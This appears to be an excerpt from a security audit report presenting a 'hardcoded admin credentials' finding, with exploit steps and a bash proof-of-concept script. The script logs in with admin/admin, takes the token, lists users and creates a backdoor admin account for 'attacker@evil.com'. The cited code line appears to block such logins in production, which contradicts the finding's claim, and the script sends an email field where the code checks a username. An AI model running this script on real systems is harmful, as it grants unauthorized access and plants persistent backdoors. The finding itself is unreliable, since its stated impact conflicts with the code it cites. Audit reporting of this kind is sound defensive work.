 
## 🔴 Critical Finding #2: Hardcoded Admin Credentials

### Description
Admin interface accessible with hardcoded credentials admin/admin in production.

### Location
`server/routes.ts:945`
```typescript
if (process.env.NODE_ENV === "production" || username !== "admin" || password !== "admin") {
```

### Exploit Steps
1. **Access Admin Panel**: Navigate to admin interface
2. **Use Default Creds**: Login with admin/admin
3. **Full Control**: Access all admin functions

### PoC Script
```bash
#!/bin/bash
# Hardcoded Admin Credentials PoC

echo "=== Admin Credentials Vulnerability Demonstration ==="

# Step 1: Attempt admin login
echo "1. Attempting login with hardcoded credentials..."
ADMIN_RESPONSE=$(curl -s -X POST http://localhost:5000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin","password":"admin"}')

# Step 2: Extract admin token
ADMIN_TOKEN=$(echo $ADMIN_RESPONSE | jq -r '.accessToken')
echo "Admin token obtained: ${ADMIN_TOKEN:0:50}..."

# Step 3: Access admin functions
echo "2. Accessing admin-only endpoints..."
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  http://localhost:5000/api/admin/users | jq '.[]' | head -5

echo "3. Creating new admin user..."
curl -s -X POST http://localhost:5000/api/admin/users \
  -H "Authorization: Bearer $ADMIN_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"email":"attacker@evil.com","password":"backdoor123","role":"admin"}'

echo "✅ Admin access achieved with default credentials!"
```

---

## 🔴 Critical Finding #3: NPM Vulnerability Exploitation
